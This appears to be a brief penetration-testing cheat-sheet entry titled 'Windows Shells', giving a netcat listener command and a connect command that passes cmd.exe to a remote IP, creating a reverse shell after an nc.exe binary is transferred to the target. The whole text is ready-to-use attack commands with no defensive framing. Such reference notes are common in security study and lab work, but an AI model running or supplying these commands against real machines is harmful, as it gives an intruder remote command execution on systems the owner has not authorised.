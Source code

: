 # Windows Shells

## Netcat

Will have to transfer a nc.exe binary to the Windows machine.

#### Listen

```bash
nc -lvnp 4444
```

#### Connect

```bash
nc <IP> 4444 -e cmd.exe
```
